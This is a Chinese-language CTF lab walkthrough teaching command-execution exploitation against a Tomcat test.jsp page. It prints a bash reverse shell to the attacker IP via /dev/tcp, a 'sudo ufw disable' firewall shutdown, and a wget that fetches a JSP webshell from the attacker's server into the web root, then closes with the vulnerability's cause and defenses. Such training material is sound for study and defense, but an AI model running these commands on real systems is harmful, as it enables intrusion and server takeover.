# CTF夺旗全套视频教程-网络安全：P16：16.web安全命令执行 🚩

在本节课中，我们将要学习CTF比赛中的命令执行漏洞。通过在Web应用程序中执行系统命令，最终获得服务器的root权限，从而取得目标flag值。

## 概述

命令执行漏洞是Web安全中一种常见的攻击方式。当应用程序需要调用外部程序处理内容时，会使用系统命令执行函数。如果攻击者能够控制这些函数的参数，就可能注入恶意命令，从而控制服务器。



## 命令执行漏洞原理



当应用程序需要调用外部程序处理内容时，会使用系统命令执行函数，例如PHP中的`system()`、`exec()`、`shell_exec()`等。

如果用户可以控制这些函数中的参数，就能将恶意系统命令注入到正常命令中，造成命令执行攻击。

在调用这些函数执行系统命令时，如果将用户输入作为系统命令的参数拼接到命令行中，并且没有对用户输入进行充分过滤，就会产生命令执行漏洞。

## 实验环境配置

以下是本次实验的环境配置：
*   **攻击机**：Kali Linux，IP地址为`192.168.1.105`。
*   **靶机**：Linux系统，IP地址为`192.168.1.103`。

在CTF比赛中，我们的明确目标是获取靶机上的flag值。

## 第一步：信息探测

上一节我们介绍了实验环境，本节中我们来看看如何对靶机进行信息探测。首先需要对主机的服务信息及版本进行探测。

我们使用Nmap工具进行扫描。以下是探测主机服务信息的命令：

```bash
nmap -sV 192.168.1.103
```

执行该命令后，Nmap会向靶机发送数据包以获取服务信息。

除了扫描服务版本，还可以使用以下命令快速扫描主机的全部信息：

```bash
nmap -A -v -T4 192.168.1.103
```
参数`-T4`代表以较快的速度进行扫描。

除了Nmap，也可以使用Nikto来探测靶机的HTTP服务信息。以下是使用Nikto的命令：

```bash
nikto -host http://192.168.1.103:8080
```
请注意，必须指定HTTP服务的端口号（本例中为8080）。

扫描结果可能显示HTTP服务的一些信息，例如允许PUT和DELETE方法，这通常是危险的。PUT方法曾导致严重的IIS PUT漏洞，允许攻击者上传WebShell；DELETE方法可直接删除服务器文件。

扫描结果还可能提示存在一个`test.jsp`文件，这可能是一个有趣的切入点。

## 第二步：漏洞发现与初步利用

根据扫描结果，我们需要深入挖掘可利用的信息。我们发现了HTTP服务和一个`test.jsp`页面。

在浏览器中访问靶机的8080端口（`http://192.168.1.103:8080`），可以看到Tomcat的默认页面，其中显示了网站的文件系统根目录信息，这一点很重要。

接着访问扫描到的`test.jsp`页面（`http://192.168.1.103:8080/test.jsp`）。页面提示这是一个调试页面，用于检测临时目录的变化，并示例了输入`ls -l /tmp`命令来查看信息。

这让我们联想到命令执行漏洞：通过Web应用程序输入参数或命令，在服务器上执行。我们可以尝试利用这一点。

我们在输入框中尝试执行更多系统命令来获取信息。以下是使用的命令：

```bash
ls -alh /tmp
```
参数说明：`-a`显示所有文件（包括隐藏文件），`-l`以长格式显示，`-h`以易读格式显示文件大小。

执行后可以显示更详细的信息。我们更关心服务器上的用户信息。在Linux中，每个用户在`/home`目录下都有独立的目录。使用以下命令查看：



```bash
ls -alh /home
```
可以发现存在一个名为`bill`的用户目录。



接下来，查看该用户目录下是否有可利用的信息：

```bash
ls -alh /home/bill
```
可以发现`.ssh`目录，说明`bill`用户可以通过SSH远程登录服务器。同时提示信息表明`bill`用户可能可以使用`sudo`命令以管理员权限执行命令，这可用于权限提升。

我们还可以查看系统信息：

```bash
uname -a
```
输出显示系统为Ubuntu，并包含内核版本等信息。Ubuntu系统默认带有UFW防火墙。

## 第三步：权限提升与利用

我们已经探测到服务器存在`bill`用户，并且该用户可能拥有`sudo`权限。接下来我们利用这一点。





首先，利用SSH本地免密登录的特性来执行命令。在Linux中，通过SSH连接到本机通常不需要密码验证。我们可以用这种方式以`bill`用户身份执行`sudo`命令。

以下是查看`bill`用户的`sudo`权限的命令：



```bash
ssh bill@localhost sudo -l
```
执行成功，返回了`bill`用户可以执行的`sudo`命令信息。



既然可以执行`sudo`命令，我们就可以关闭系统的UFW防火墙，为后续操作扫清障碍：



```bash
ssh bill@localhost sudo ufw disable
```
命令执行成功，防火墙已被关闭。

## 第四步：获取Shell控制权

在获取一定权限后，我们需要进一步提升权限以完全控制服务器。常见的方法是反弹一个Shell会话到攻击机。

以下是第一种反弹Shell的方法：
1.  在攻击机（Kali）上使用Netcat监听一个端口（例如4444）。
    ```bash
    nc -lvp 4444
    ```
2.  在靶机的命令执行点（`test.jsp`输入框），通过`sudo`权限执行以下命令，将Bash Shell反弹到攻击机：
    ```bash
    sudo bash -i >& /dev/tcp/192.168.1.105/4444 0>&1
    ```
    命令解释：`bash -i`启动一个交互式Shell，`>& /dev/tcp/攻击机IP/端口`将标准输出和错误输出重定向到TCP连接，`0>&1`将标准输入也重定向到该连接。



执行后，攻击机的Netcat监听端口会接收到反弹回来的Shell，并且由于使用了`sudo`，我们获得了`root`权限。输入`id`命令可以验证。

## 第五步：寻找并获取Flag



在CTF比赛中，最终目标是获取flag。Flag通常存放在只有root用户才能访问的目录下，例如`/root`目录。

在获取的root Shell中，执行以下命令：

```bash
cd /root
ls
cat flag
```
即可看到并读取flag文件的内容，完成挑战。

## 其他技巧：上传WebShell



在渗透测试中，另一种常见方法是上传WebShell木马。这需要一个HTTP服务器来托管木马文件，并让靶机下载。

1.  在攻击机桌面准备好WebShell文件（例如`shell.jsp`）。
2.  在桌面目录启动一个简易的Python HTTP服务器：
    ```bash
    python -m SimpleHTTPServer
    ```
3.  在靶机命令执行点，使用`wget`命令下载木马文件到Web目录（需要提前知道Web根目录，本例中为`/var/lib/tomcat7/webapps/ROOT/`）：
    ```bash
    sudo wget http://192.168.1.105:8000/shell.jsp -O /var/lib/tomcat7/webapps/ROOT/shell.jsp
    ```
4.  然后通过浏览器访问这个木马文件（`http://192.168.1.103:8080/shell.jsp`）即可执行命令。

**注意**：实际环境中可能会遇到文件覆盖等问题，此方法仅作思路拓展。

## 总结与拓展

本节课中我们一起学习了命令执行漏洞的利用过程。我们通过信息探测发现漏洞点，利用命令执行功能获取用户信息，通过`sudo`权限提升至root，最后反弹Shell并找到flag。



需要指出的是，实际CTF比赛或真实环境中的命令执行漏洞通常带有各种过滤机制，不会像本课靶场这样毫无防护。攻击者需要运用各种绕过技巧（如管道符、编码、空格替换等）来达成目的。



此外，对于开放了SSH服务的靶机，可以尝试利用SSH相关特性进行测试。但核心思路是一致的：**控制输入 -> 注入命令 -> 执行代码 -> 提升权限 -> 达成目标**。



命令执行漏洞的产生根本原因是：**应用程序在调用系统命令时，未对用户输入进行严格过滤，导致用户输入被拼接到命令行中执行**。防范此类漏洞的关键在于对所有用户输入进行严格的验证和过滤，使用白名单机制，并尽量避免直接执行系统命令。